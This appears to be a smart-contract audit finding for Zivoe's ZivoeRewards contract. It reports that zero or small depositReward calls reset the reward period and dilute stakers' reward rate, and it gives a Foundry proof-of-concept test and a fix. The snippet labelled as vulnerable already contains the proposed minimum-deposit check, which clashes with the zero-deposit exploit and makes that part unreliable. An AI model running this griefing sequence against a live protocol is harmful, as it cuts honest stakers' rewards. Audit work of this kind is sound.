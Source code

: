 Scruffy Indigo Hare

medium

# Everytime an user deposits using the function ZivoeRewards::depositReward, the periodFinish is reset, causing the rewardRate to be increasingly lower.

# Everytime an user deposits using the function `ZivoeRewards::depositReward`, the `periodFinish` is reset, causing the `rewardRate` to be increasingly lower.

| Category          | Severity | File             |
| ----------------- | -------- | ---------------- |
| Denial of Service | Medium   | ZivoeRewards.sol |

## Summary

To avoid frontrunnig, the amount of reward that is given is based on the amount of time the user was staking, that is why there is the `rewardRate`, the `rewardsDuration`, and the `periodFinish`, the `rewardRate` gives an amount to the user based on how much of UDSC/UDST/DAI the contract has, that amount is given through time so by the end it will in theory finish giving everything that was deposited through `ZivoeRewards::depositReward` when `block.timestamp = periodFinish`. Homever, if a user deposits any value, even 0, the `periodFinish` is set to the actual time plus `rewardsDuration`. This vulnerability also applies to `ZivoeRewardsVesting.sol` as well.

## Vulnerability Detail

When `ZivoeRewards::depositReward` is called, it first calculates the amount of rewards that it would be given until `periodFinish`, them it adds that to the amount deposited and resets the `periodFinish` to `block.timestamp + rewardsDuration`. It is necessary to add more time so the deposited reward can be claim through time, but the vulnerability happens when a low or even a 0 reward is deposited for the sole purpose of recalculating the `rewardRate`, which will dilute the amount the users would receive over time, forcing them to stake for more days to receive the same reward.

```javascript
function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        if (_msgSender() != IZivoeGlobals_ZivoeRewards(GBL).YDL()) 
            require(reward >= 100 ether, "ZivoeRewards::depositReward() reward < 100");
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);

        // Update vesting accounting for reward (if existing rewards being distributed, increase proportionally).
        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
        } else {
            uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
            rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
        }

        rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
        rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
        emit RewardDeposited(_rewardsToken, reward, _msgSender());
    }
```

## Impact

Late users will gain less for staking for the same amount of time compared to users that staked right after a large enough deposit is made.

## Code Snippet

https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228C5-L243C6

https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352C5-L367C6

## Proof of Code

Paste the following code bellow in: `Test_ZivoeRewards.sol` and run `forge test --mt test_ZivoeRewards_deposit_reward_can_alter_the_reward_rate -vv --rpc-url wss://ethereum-rpc.publicnode.com`.

<details>
<summary>Code</Summary>

```javascript
function test_ZivoeRewards_deposit_reward_can_alter_the_reward_rate() public {

        hevm.startPrank(DAI);
        IERC20(DAI).transfer(address(bob), 200 ether);
        IERC20(DAI).transfer(address(roy), 200 ether);
        IERC20(DAI).transfer(address(tim), 200 ether);
        IERC20(DAI).transfer(address(sam), 2000 ether);
        hevm.stopPrank();
        hevm.startPrank(address(DAO));
        IERC20(address(ZVE)).transfer(address(bob), 200 ether);
        IERC20(address(ZVE)).transfer(address(roy), 200 ether);
        IERC20(address(ZVE)).transfer(address(tim), 200 ether);
        IERC20(address(ZVE)).transfer(address(sam), 200 ether);
        hevm.stopPrank();
        hevm.startPrank(address(bob));
        IERC20(DAI).approve(address(stZVE), 200 ether);
        IERC20(address(ZVE)).approve(address(stZVE), 200 ether);
        hevm.stopPrank();
        hevm.startPrank(address(roy));
        IERC20(DAI).approve(address(stZVE), 200 ether);
        IERC20(address(ZVE)).approve(address(stZVE), 200 ether);
        hevm.stopPrank();
        hevm.startPrank(address(tim));
        IERC20(DAI).approve(address(stZVE), 200 ether);
        IERC20(address(ZVE)).approve(address(stZVE), 200 ether);
        hevm.stopPrank();
        hevm.startPrank(address(sam));
        IERC20(DAI).approve(address(stZVE), 2000 ether);
        IERC20(address(ZVE)).approve(address(stZVE), 200 ether);
        hevm.stopPrank();


        uint256 duration = 30 days;


        uint256 deposit = IERC20(DAI).balanceOf(address(sam))/5;
        hevm.prank(address(sam));
        stZVE.depositReward(DAI, deposit);

        console.log("DAI Balance of Roy before: ", IERC20(DAI).balanceOf(address(roy)), "   DAI Balance of Tim before: ", IERC20(DAI).balanceOf(address(tim)));

        uint256 rewardForDuration = stZVE.getRewardForDuration(DAI);
        console.log("rewardRate after the 1srt deposit(400): ", rewardForDuration/duration);

        hevm.warp(block.timestamp + 10 days);

        hevm.prank(address(sam));
        stZVE.depositReward(DAI, deposit);

        rewardForDuration = stZVE.getRewardForDuration(DAI);
        console.log("rewardRate after the 2th deposit(400): ", rewardForDuration/duration);

        hevm.warp(block.timestamp + 10 days);

        hevm.warp(block.timestamp + 100 days);
        console.log("Period finish before the deposit", stZVE.lastTimeRewardApplicable(DAI));
        hevm.warp(block.timestamp - 100 days);

        hevm.prank(address(bob));
        stZVE.depositReward(DAI, 0);

        rewardForDuration = stZVE.getRewardForDuration(DAI);
        console.log("rewardRate after the 3rd deposit(0): ", rewardForDuration/duration);
        
        hevm.warp(block.timestamp + 100 days);
        console.log("Period finish after the deposit", stZVE.lastTimeRewardApplicable(DAI));
        hevm.warp(block.timestamp - 100 days);

        hevm.prank(address(sam));
        stZVE.depositReward(DAI, deposit);

        hevm.prank(address(roy));
        stZVE.stake(200 ether);
        hevm.warp(block.timestamp + 10 days);

        hevm.prank(address(roy));
        stZVE.fullWithdraw();

        rewardForDuration = stZVE.getRewardForDuration(DAI);
        console.log("rewardRate after the 4th deposit(400): ", rewardForDuration/duration);

        hevm.prank(address(tim));
        stZVE.stake(200 ether);

        hevm.prank(address(bob));
        stZVE.depositReward(DAI, 0);
        hevm.warp(block.timestamp + 10 days);

        hevm.prank(address(tim));
        stZVE.fullWithdraw();

        rewardForDuration = stZVE.getRewardForDuration(DAI);
        console.log("rewardRate after the 5th deposit(0): ", rewardForDuration/duration);

        hevm.warp(block.timestamp + 20 days);

        rewardForDuration = stZVE.getRewardForDuration(DAI);
        console.log("20 days after the 5th deposit: ", rewardForDuration/duration);

        console.log("DAI Balance of Roy after: ", IERC20(DAI).balanceOf(address(roy)), "   DAI Balance of Tim after: ", IERC20(DAI).balanceOf(address(tim)));
        console.log("Roy staked 200 DAI for 10, and Tim also staked 200 DAI for 10 days");
    }
```
</details>

## Tool used

Manual Review

## Recommendation 

Require a minimun amount to deposit when `msg.sender` is not `ZivoeYDL`.

<details>
<summary>Code</summary>

```diff
interface IZivoeGlobals_ZivoeRewards {
    /// @notice Returns the address of the Zivoe Laboratory.
    function ZVL() external view returns (address);

+    function YDL() external view returns (address);
}

...

function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
+       if (_msgSender() != IZivoeGlobals_ZivoeRewards(GBL).YDL())
+            require(reward >= 100 ether, "ZivoeRewards::depositReward() reward < 100");
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);

        // Update vesting accounting for reward (if existing rewards being distributed, increase proportionally).
        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
        } else {
            uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
            rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
        }

        rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
        rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
        emit RewardDeposited(_rewardsToken, reward, _msgSender());
    }
```
</details>
